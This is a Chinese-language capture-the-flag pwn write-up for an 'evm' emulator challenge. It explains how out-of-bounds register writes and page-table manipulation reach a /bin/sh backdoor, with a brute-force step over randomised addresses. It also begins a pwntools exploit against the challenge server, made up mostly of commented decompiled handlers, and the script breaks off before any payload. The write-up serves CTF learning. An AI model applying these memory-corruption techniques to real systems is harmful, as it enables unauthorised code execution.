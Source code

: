 ```c
}
```

漏洞
--

有后门

自己造了两个一级页表，里面都只有1个页表项，然后可以往页表项的对应内存输入

需要第一个页表执行执行完才能触发后门，有/bin/sh的地址，没开pie，寄存器可以越界修改到后门用的参数

第二个页表的页表项输入的有限制，需要全是19，但可以通过第一个页表的页表项输入的指令改第二个页表项对应的物理地址内容（主机的虚拟地址）

由于页表项对应的物理地址的12-21位是随机生成的，所以需要往物理地址的每个页面写后门指令，使得第二个页表的页表项的物理地址的指令处也能被改到

2的9次方&lt;0x1000/4（可写的指令个数）发现还有一些其他的，是不够的（可能是我没优化到位）

本地通了，远程老是失败，将payload改短，增加爆破次数就行，不然有三血，可惜后面还是完了点，拿个四血

exp
---

```python
from pwn import *

def pwn():
    p=remote("8.147.129.22",40300)
    #p=process("./evm")
    #   case 16:
    #             dest = ((unsigned __int16)code >> 7) & 0x1F;
    #             src_1 = (code >> 15) & 0x1F;
    #             v8 = HIWORD(code) >> 4;
    #             result = (BYTE1(code) >> 4) & 7;
    #             switch ( (BYTE1(code) >> 4) & 7 )   // 寄存器和立即数操作的结果给寄存器
    #             {
    #               case 0:
    #                 result = (__int64)emula;
    #                 emula->reg[dest] = emula->reg[src_1] + v8;
    #                 break;
    #                case 1:
                    # result = (__int64)emula;
                    # emula->reg[dest] = emula->reg[src_1] << (v8 & 0x3F);
                    # break;
    #  reg0=0
    #  reg0=reg0+1
    #  reg2=reg0<<12
    # reg2=reg2+0xff0

    # case 44:                              // 寄存器赋值给寄存器作为偏移的物理地址
    #             v16 = emula->reg[(code >> 15) & 0x1F] + (((unsigned __int16)code >> 7) & 0x1F) + 32 * (HIBYTE(code) >> 1);
    #             v18 = emula->reg[(HIWORD(code) >> 4) & 0x1F];
    #             v21 = (_QWORD *)(emula->chunk_200000_ptr + v16);
    #             if ( v16 > 0x1FFFFF )
    #               _Exit(1);
    #             result = (BYTE1(code) >> 4) & 7;
    #             if ( (_DWORD)result == 3 )
    #             {
    #               result = emula->chunk_200000_ptr + v16;
    #               *v21 = v18;
    #             }
    #
    # reg1=0 
    # reg1=reg1+0x73

    # v16=reg0
```